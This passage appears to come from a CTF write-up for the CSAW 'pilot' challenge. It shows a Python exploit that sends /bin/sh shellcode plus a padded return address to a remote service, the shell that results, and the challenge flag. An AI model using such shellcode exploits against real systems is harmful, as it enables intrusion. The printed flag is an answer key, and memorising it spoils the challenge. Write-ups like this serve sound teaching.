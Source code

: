 ```python
print '[+] Target Address: {}'.format(address)
# 64-bit Linux '/bin/sh' shellcode
shell_please = "\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\xb0\x3b\x48\x89\xe7\x31\xf6\x31\xd2\x0f\x05"
# prepend shellcode, pad with "A"s and append "Location" address as little-endian, 64-bit address
payload = shell_please + 'A' * (40-len(shell_please)) + p64(int(address, 16))

r.send(payload)
# interact with shell
r.interactive()
```

> <b>*Note:</b> The bytes of our payload must be sent in [little-endian](https://en.wikipedia.org/wiki/Endianness#Little-endian){:target="_blank"} format when transmitting over the network. This essentially means that the least significant bit is stored "first". An example can be seen below:
>
>|<b>Big-Endian|<b>Little-Endian</b>
>|0x41424344| 0x44434241
>| "ABCD"|  "DCBA"

<br>
With our Python script ready for deployment, let's take it for a spin and hope for a shell:

```
# ./pilot.py
[+] Going remote...
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
[+] Target Address: 0x7ffe6549f700
[*] Switching to interactive mode
[*]Command:$
```

<br>
At this point, we're expecting a shell after the execution of /bin/sh. Let's confirm that we have a connection to the target host by issuing the 'whoami' command.

```
[*]Command:$ whoami
pilot
```

<br>
Great, so we've confirmed that we have a shell on the target host and we're running within the context of the 'pilot' user. Now, let's poke around in the current directory to locate the flag.

```
$ ls
flag
pilot
```

<br>
Do you see what I see? Let's investigate the contents of the 'flag' file within the current directory.

```
$ cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
```

